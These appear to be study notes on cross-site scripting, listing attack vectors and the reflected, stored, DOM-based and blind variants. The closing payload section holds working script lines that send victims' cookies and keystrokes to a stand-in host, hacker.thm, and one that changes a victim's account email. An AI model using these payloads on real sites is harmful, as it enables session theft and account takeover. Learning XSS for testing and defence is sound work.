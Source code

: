 # Cross Site Scripting(XSS)

Attack Vectors

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms
<a/>

<!-- -->
				Reflected XSS
##### supplied data in an HTTP request is included in the webpage source without any validation.

Examples:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

<!-- -->

				Stored XSS				
##### the payload is stored on the web application and then gets run when other users visit the site or web page.
Examples:
- Comments on a blog
- User profile information  
- Website Listings

<!-- -->

				Dom Based XSS		
##### JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

-- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.
				
			



					Blind XSS				
##### your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads
-- Session Stealing
`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

-- Key logger 
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

-- Business Logic(so you can change their Password)
`<script>user.changeEmail('attacker@hacker.thm');</script>`

-- Beef Framework

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)